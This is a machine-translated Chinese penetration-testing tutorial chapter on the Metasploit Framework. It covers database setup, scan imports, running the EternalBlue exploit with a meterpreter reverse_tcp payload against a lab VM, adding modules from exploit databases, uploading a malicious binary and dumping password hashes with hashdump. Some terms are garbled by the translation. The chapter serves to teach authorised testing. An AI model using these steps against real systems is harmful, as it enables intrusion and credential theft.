# 五、跳入 Metasploit 框架

Metasploit 框架是一个渗透测试平台，可以简化目标机器的开发。这是一个直观的工具，是任何渗透测试人员工具包的组成部分。它由 Rapid7 维护，但安全社区中有许多贡献者

在本章中，我们将探讨 Metasploit 框架的模块性和灵活性。由于有一些定期开发的漏洞可以添加到 Metasploit 已经很大的数据库中，因此您将学习如何查找和导入这些漏洞。我们将探讨有效载荷的各种选择以及各种外壳之间的差异。Metasploit 中的构建技能可以增强渗透测试，通过使用已经存在的漏洞，而不是编写自己的漏洞，使测试变得简单。

随着本章的学习，您将了解以下内容：

*   引种变质岩
*   查找模块
*   添加模块
*   Metasploit 选项外壳和有效载荷
*   使用 MSFvenom

# 技术要求

本章需要以下技术要求：

*   Kali Linux 2019.1
*   Metasploit 框架版本 5
*   Metasploitable 3 虚拟机

# 引种变质岩

Metasploit 被列为世界上使用最多的渗透测试软件。它是一个渗透平台，使您能够通过发现、利用和验证漏洞来处理漏洞。它由 Rapid7 维护，有两个版本，Metasploit Pro 和称为 Metasploit 框架的社区版。当然，专业版中有更多的功能，但社区版中的可用功能不容忽视。Metasploit 框架中包含的功能将为您提供足够的知识，以了解如何使用 Metasploit 框架，以及在渗透测试中利用 Metasploit 框架可以实现什么。

Metasploit 的体系结构灵活且模块化，这有助于开发人员在公布漏洞时创建可用漏洞。Metasploit 的界面直观，提供了一种运行安全社区信任的漏洞代码的方法。使用 Metasploit，而不是尝试编写自己的漏洞，可以节省渗透测试期间的时间。正如您在[第一章](01.html)、*渗透测试简介*中所了解的，渗透测试是有时间限制的。因此，花时间开发自己的漏洞可能会浪费宝贵的时间，而这些时间本来可以用于其他任务。

并非所有的开发都能按设计工作；有些可能弊大于利。在使用互联网上可用的漏洞时保持警惕是很重要的。

在 Kali Linux 2019.1 中，Metasploit 框架的版本是版本 5。版本 5 引入了一些新功能，例如：

*   支持 Go、Python 和 Ruby 语言，这些语言可以在模块中使用
*   新的数据库和自动化 API
*   新的`evasion`模块和库
*   使用`file://`*选项的`exploit`模块中的多主机功能*

 *您可以在 Rapid7 的帖子上阅读完整的发行说明：[https://blog.rapid7.com/2019/01/10/metasploit-framework-5-0-released/](https://blog.rapid7.com/2019/01/10/metasploit-framework-5-0-released/) 。

Metasploit 框架中存在几种类型的模块，定义如下：

*   **漏洞模块**：使用漏洞模块，利用特定漏洞在目标上执行一系列命令。通常，此技术使用已被发现并公开发布的漏洞来获取对目标的访问。漏洞利用模块的示例包括**代码注入**、**缓冲区**、**溢出**和网络漏洞利用
*   **辅助模块**：`auxiliary`模块中没有有效载荷。相反，使用与剥削没有直接关系的随机措施。例如，`auxiliary`模块可以执行用户或共享的枚举扫描。`Fuzzers`和`server capture`模块是`auxiliary`模块的其他示例
*   **后利用模块**：后利用模块允许您收集额外信息或提升对目标系统的访问权限。这些模块的一些实例包括**散列转储**（我们将在[第 6 章](06.html)*、理解密码攻击*、以及**服务**和**应用枚举器中介绍）。**
*   **有效载荷**：有效载荷是一个外壳代码，在系统被成功破坏后执行。有效负载的目的是定义如何连接到目标系统外壳，以及在获得控制权后要执行的操作。例如，您可以打开一个 MeterMeter 会话。MeterMeter 是一种先进的有效负载，内存中有 DLL 注入，因此它从不接触磁盘
*   **NOP 生成器**：使用 NOP 生成器，您可以创建一个随机字节范围，允许您绕过标准入侵检测和预防设备中的 NOP 底座签名。

让我们从 Metasploit 框架开始，并进行一些初始配置步骤。Metasploit 框架是使用以下命令从 Kali Linux 中的终端窗口启动的：`msfconsole`**。**

# 更新 Metasploit 框架

在过去，更新 Metasploit 框架需要在启动应用后运行`msfupdate`命令。现在，Metasploit 框架默认包含在 Kali Linux 中，您可以通过运行以下命令对其进行更新：

```
apt update && apt install metasploit-framework
```

这将安装最新版本的 Metasploit 框架。

# 将 Metasploit 框架链接到数据库

Metasploit 为支持 PostgreSQL 的后端数据库提供支持

如果只想运行 Metasploit 框架，您不必拥有数据库，但是如果您想查看收集的数据，它会非常有用。使用以下步骤创建数据库：

1.  首先，您需要在 Kali Linux 的终端窗口中使用`service PostgreSQL start`**命令启动 PostgreSQL 服务。**
***   一旦服务启动，我们需要定义连接到我们将创建的数据库的 Metasploit 用户名和密码。为了为数据库创建用户名和密码，我们需要迁移到 PostgreSQL 用户。这是使用`su postgres`命令完成的。您会注意到提示现在更改为`postgres@kali:~#`。现在，我们将使用`createuser [name] -P`命令创建一个用户。按照提示定义密码。在我的设置中，我使用了`msf_user`**用户名，如下图所示：****

 ****

图 1：为 PostgreSQL 数据库创建用户

3.  现在，我们使用`created --owner=[name] [database]`命令创建数据库。在我的设置中，我使用了`msf_user`**用户名，数据库名为`msf_database`，如下图所示：**

 **

图 2：创建数据库并将用户链接到数据库

4.  接下来，我们将使用`msfconsole`命令打开 Metasploit 框架。加载所有内容后，我们将使用以下命令连接到刚刚创建的数据库：

```
 db_connect [username]:[password]@127.0.0.1/[database name] 
```

例如，我们可以使用`db_connect msf_user:password@127.0.0.1/msf_database`，如下图所示：



图 3：连接到刚刚创建的数据库

5.  为了使 Metasploit 能够自动连接到数据库，我们需要编辑位于`/usr/share/metasploit-framework/config/`的`database.yml`文件，如下面的屏幕截图*所示。*

在编辑`database.yml`文件之前，请确保退出 Metasploit 框架。

如果没有该文件，可以修改示例文件并添加已创建数据库的详细信息以及用户登录详细信息。将文件另存为`database.yml`：



图 4：修改 database.yml 文件

6.  修改文件后，您可以再次启动 Metasploit 框架，并使用`db_status`命令检查数据库连接。如果一切正常，您将看到一条消息，显示连接到哪个数据库 Metasploit，如以下屏幕截图所示：



图 5：检查 Metasploit 框架内的数据库连接

如果在运行 Metasploit 框架之前未启动 PostgreSQL 服务，则在打开 Metasploit 框架时，将收到数据库连接错误。

数据库允许您存储主机数据和利用结果等信息。让 Metasploit 在数据库中存储数据使您能够访问结果以供将来参考。

# 在 Metasploit 中增强您的体验

使用 Metasploit 的`workspaces`功能，您可以在执行渗透测试时组织您的移动。例如，如果您针对不同的部门执行各种任务，您可以为每个部门创建`workspace`，如下图所示：


图 6：创建和删除工作区

创建`workspace`的命令是`workspace -a [name]`，要删除它，我们使用`workspace -d [name]`**在工作区之间切换，您可以使用`workspace [name]`命令。注意，您可以通过用空格分隔名称，在一行内定义多个工作区。**

 **Metasploit 使您能够导入扫描，例如由 Nmap 或 Nessus 运行的扫描。在[第 3 章](03.html)中*执行信息收集时，*您应该将 Metasploitable 3 的 Nmap 扫描导出到一个`.xml`文件中。要将其导入 Metasploit 框架，可以使用`db_import [path to file]`命令，如以下屏幕截图所示：


图 7：导入 Nmap 扫描

要将 Nmap 导出的 XML 文件转换为 HTML，可以使用以下命令：`xsltproc <nmap-output.xml> -o <nmap-output.html>`。

Metasploit 有一个 Nessus 桥接器，可以让您连接到 Nessus 数据库并将扫描直接导入 Metasploit。让我们使用在[第 3 章](03.html)*中执行的扫描执行导入，执行信息收集：*

1.  在终端窗口中，使用`msfconsole`命令打开 Metasploit 框架。加载框架后，我们将使用`load nessus`命令加载 Nessus bridge 插件。接下来，您需要连接到 Nessus 数据库。确保 Nessus 服务正在运行，然后使用`nessus_connect username:password@IP`命令进行连接，如以下屏幕截图所示。在我的设置中，我在 Kali 上本地拥有数据库，因此我使用环回地址`127.0.0.1`：


图 8：连接到 Metasploit 框架内的 Nessus 数据库

2.  连接 Nessus 数据库后，您可以通过输入`nessus_scan_list`命令查看扫描列表，如以下屏幕截图所示：



图 9：查看 Nessus 扫描列表

3.  使用`nessus_db_import scanid`命令将扫描导入 Metasploit 框架，如以下屏幕截图所示：


图 10：导入 Nessus 扫描

导入扫描后，您现在可以查看漏洞列表并执行搜索，以找出 Metasploit 涵盖的漏洞

使用`hosts -c address`命令，`vulns`为我们提供了每个主机的漏洞列表，使用`vulns`命令将显示漏洞的完整列表以及拥有这些漏洞的主机的 IP 地址。在以下屏幕截图中，您将注意到 Metasploitable 3 虚拟机有许多漏洞，从 Nessus 进口的：


图 11：显示 Nessus 发现的漏洞

现在，我们可以针对 Nessus 数据库导入搜索特定漏洞。例如，使用`vulns -S eternalblue`命令，我们可以搜索一个已知的漏洞，如下面的屏幕截图所示：


图 12：搜索 Nessus 扫描中的漏洞

请注意，输出显示了主机的 IP 地址以及与搜索查询相关的漏洞

# 使用 Metasploit 攻击远程目标

现在，我们已经从 Nessus 导入了数据，并且了解了如何在 Metasploit 框架中使用这些功能，现在让我们对 Metasploitable 3 虚拟机进行一次攻击。

我们将使用`ms17_010_eternalblue`漏洞。我们已确定 Metasploitable 3 虚拟机易受此攻击：

1.  使用`msfconsole`命令从终端窗口打开 Metasploit 框架。
2.  加载 Metasploit 框架后，使用`use exploit/windows/smb/ms17_010_eternalblue`命令并按*回车*。

3.  使用`set RHOSTS [IP]`命令定义目标（即 Metasploitable 3 虚拟机的 IP 地址）。
4.  我们将使用 MeterMeter 有效载荷，因为这将在本章后面使用。使用`set payload``windows/x64/meterpreter/reverse_tcp`命令定义有效负载。注意所有设置选项，如以下屏幕截图所示：



图 13：定义的利用选项

5.  定义选项后，可以使用`exploit`命令运行漏洞利用，如以下屏幕截图所示：


图 14：漏洞攻击已成功完成

现在，您将建立到 Metasploitable 3 虚拟机的远程会话。

您将在本章稍后部分使用此会话。

# 查找模块

在对各种目标执行渗透测试时，可能会遇到 Metasploit 没有可使用的漏洞的情况。也许您还没有遇到过这种情况，但您希望保持 Metasploit 数据库的最新状态。在任何一种情况下，了解**在何处找到**模块以及**如何将**模块添加到 Metasploit 中都是一项有用的技能。有许多公共存储库托管可供下载的模块。这些网站将是您查找 Metasploit 模块的首选资源。

# 利用数据库

我们首先要看的是漏洞数据库（通常称为**漏洞数据库**。当我们与 Google dorks 合作时，您将识别上一章*（*[第三章](03.html)、*执行信息收集】*中的漏洞数据库。漏洞数据库可直接访问：[https://www.exploit-db.com](https://www.exploit-db.com) 。

该网站有一个名为**漏洞利用**、**的部分，您可以在其中找到由安全公司和个人发布的模块。该网站具有验证模块（V）、下载模块（D）和下载易受攻击应用（A）（如果适用）等功能。标题栏中将其描述为 D、A 和 V，如以下屏幕截图所示：**

 **

图 15：显示漏洞列表的漏洞数据库

请注意，模块跨越多个平台和类型

# Rapid7 漏洞数据库

Rapid7 是另一个可以获得模块*（*参见*图 16】*的公共资源。可通过以下网址访问此存储库：[https://www.rapid7.com/db/modules](https://www.rapid7.com/db/modules) 。

Rapid7 的漏洞数据库与漏洞数据库非常相似；但是，它不包含其他功能，如谷歌黑客数据库：



图 16:Rapid7 的漏洞数据库

Rapid7 还列出了漏洞，并将其与相关漏洞链接。以下示例显示了 CVE-2019-8943 Wordpress 漏洞和利用漏洞链接：



图 17：与漏洞相关的漏洞

单击该漏洞利用时，您可以查看有关该漏洞利用的功能及其可用选项的完整详细信息。

# 0 天。今天

0day.today 是另一个包含多个模块的存储库。与 0day.today 的区别在于，可以购买一些可用的漏洞利用，如下面的屏幕截图所示。一些付费攻击声称进行了 Snapchat 接管和 Facebook 群盗窃等活动。还有其他免费的漏洞利用：



图 18:0day.today 漏洞利用数据库

0 天。今天可在[访问 https://0day.today/](https://0day.today/) 。

# 添加模块

既然我们已经介绍了如何为 Metasploit 框架查找模块，那么让我们开始添加一个模块。我们将使用一个模块，该模块涵盖 Wordpress 5.0.0-Crop image Shell Upload（Metasploit）的漏洞利用。此漏洞的直接链接是[https://www.exploit-db.com/exploits/46662](https://www.exploit-db.com/exploits/46662) 。

在下载该漏洞之前，我们将验证 Metasploit 框架中当前不存在该漏洞。为此，我们可以使用`search`命令*（*参见*图 19】*。此命令允许您搜索特定模块：


图 19：搜索与裁剪图像相关的模块

由于没有结果，我们将退出 Metasploit 框架并下载模块以添加它。使用前面的直接链接，您可以使用下载功能下载实际模块，如以下屏幕截图所示：


图 20：从漏洞数据库下载漏洞

Metasploit 框架内的所有模块均位于`/usr/share/metasploit-framework/modules`内。**由于这是一个`exploit`且与`http`相关，所以我将其放置在`/usr/share/metasploit-framework/modules/exploits/multi/http`路径中，如下图截图所示：**

 **

图 21：下载的漏洞的位置

当您打开 Metasploit 框架时，执行搜索将显示新添加的`exploit`，如以下屏幕截图所示：


图 22：添加到 Metasploit 数据库的漏洞

您还可以使用`loadpath`命令加载新添加的模块，例如`loadpath /usr/share/metasploit-framework/modules`。

# Metasploit 选项、外壳和有效载荷

Metasploit 有许多选项、外壳和有效负载，可在选择各种利用漏洞时使用。

涵盖所有漏洞利用中的所有可能选项不在本书的范围内，但我将解释如何找到这些选项，并讨论最常用的选项。了解现有的各种炮弹和有效载荷选项非常重要

# 选择权

Metasploit 框架中的不同模块使用不同的选项。例如，登录扫描程序模块将包含诸如`userpass_file`、`pass_file`和`user_file`等选项。在下面的屏幕截图中，您将注意到`auxiliary/scanner/ssh/ssh_login`模块的选项：



图 23:SSH 登录扫描程序选项

要查看特定模块的选项，可以使用`show options`命令。要设置选项，您将使用`set`命令。您将经常使用的最常见选项如下：

*   **RHOST**：指您要利用的远程主机。这会告诉 Metasploit 您要攻击哪个系统，因此它是一个必须定义的字段。
*   **RPORT**：定义您要定位的远程端口。某些模块可能已经将此字段定义为漏洞利用的默认值。例如，使用`ms17_010_eternalblue`模块将 RPORT 值定义为`445`。您真正修改 RPORT 值的唯一时间是，如果目标使用自定义端口，例如使用 SSH 的端口`2222`，而不是端口`22`。
*   **LHOST**：这是您希望目标机器连接到的 IP 地址。记住你所在的位置；如果您正在穿越公共网络，则需要定义公共 IP 并配置端口转发，以便目标计算机的返回流量能够到达您的系统。不要配置诸如`localhost`、`0.0.0.0`或`127.0.0.1`之类的值，因为这将指示目标连接到自身。
*   **LPORT**：这是您希望目标连接到的系统上的本地端口。

Metasploit 非常直观，它将为您提供各种模块中存在的每个选项的描述。您将在前面的屏幕截图中注意到这一点。

# 贝壳

Metasploit 框架中存在两种类型的 shell。这些是**绑定壳**和**反向壳**。

**绑定 shell**在目标机器上打开一个新服务，并要求您连接到该服务以获取 shell。这些 shell 的问题是默认情况下防火墙会阻塞随机端口上的连接，因此绑定 shell 不如反向 shell 有效。

**反向外壳**将连接推回攻击机器，而不是等待您连接。它要求首先在攻击机器上设置侦听器，以便侦听来自目标机器的连接。通常的做法是在端口`80`或`443`上设置侦听器。这些端口分别与`http`和`https`直接相关，并与日常网络流量相连。阻止这些端口根本不可行，因此使它们成为反向 shell 连接的主要目标。

# 有效载荷

Metasploit 框架拥有大量有效负载，可用于所有类型的场景。通过`show payloads`命令可以查看当前**有效载荷**。当您运行此命令时，一些有效负载将具有相同的名称，看起来好像它们执行相同的操作；然而，这是有区别的。例如，如果您查看`windows/shell/reverse_tcp`和`windows/shell_reverse_tcp`有效载荷，正斜杠`/`告诉我们它是一个分段有效载荷，下划线`_`告诉我们该有效载荷是一个单独的有效载荷。

**分级有效载荷**是由两个主要部件组成的有效载荷。这些部件是小型装载机和末级有效负载。**分段器**负责拉下分段有效载荷的其余部分。查看前面的示例，`windows/shell/reverse_tcp`将执行两个功能。首先，它将发送加载程序，一旦加载程序被执行，它将请求处理程序（攻击者）发送最后阶段的有效负载。完成后，您将拥有一个 shell。以下屏幕截图中显示了一个示例：


图 24：永久蓝色分级有效载荷

**单有效载荷**是一种开火遗忘型有效载荷。该有效负载包含装载机和有效负载。当使用这种类型的有效负载时，装载机和有效负载都会立即发送到目标。

**MeterMeter**是一种提供交互式外壳的攻击有效载荷。在这个 shell 中，攻击者可以探索目标并执行代码。它使用内存中的 DLL 注入进行部署。这会导致 MeterMeter 完全在内存中运行，并且不会接触目标的本地磁盘。MeterMeter 将自身注入到其他正在运行的进程中，使其法医足迹非常小。它旨在避免其他有效负载可能存在的缺点，例如触发警报，提醒目标注意您的活动。

如果您想到一个反向 shell，它的目的相对简单：它是为了获得一个 shell。这可能是您的第一选择，但对各种类型的有效载荷有很好的了解将有助于您为渗透测试选择最佳选项。例如，使用`windows/meterpreter/reverse_tcp`有效载荷是稳定的，并且可以工作，但是，使用`windows/meterpreter/reverse_https`是更强大的选择。为什么呢`windows/meterpreter/reverse_https`有效载荷提供了更多的功能，例如具有加密通道（使其更难检测）。

MeterMeter 提供了远程控制文件系统的能力。使用此功能，您可以将文件上载到目标并下载文件。在下面的截图中，我正在使用 MeterMeter 中的**上传**功能上传`procmon.exe`*的恶意版本。*使用`getwd`命令显示目标系统上的当前工作目录。`getlwd`命令显示本地系统上的工作目录：



图 25：利用 MeterMeter 的上传功能

MeterMeter 有许多可以使用的开发后模块。可以使用`search post`命令找到这些。在下面的屏幕截图中，我正在使用`post`模块，该模块枚举已登录的用户。请注意，它会将结果保存在`loot`文件夹中，因此您可以在稍后的阶段再次引用：



图 26：在 MeterMeter 中使用开发后模块

MeterMeter 的另一个特性是`hashdump`命令。此命令转储系统的当前哈希值，您可以将其复制到文本文件以进行脱机密码破解，如以下屏幕截图所示：



图 27：使用 hashdump 命令转储目标系统的当前哈希

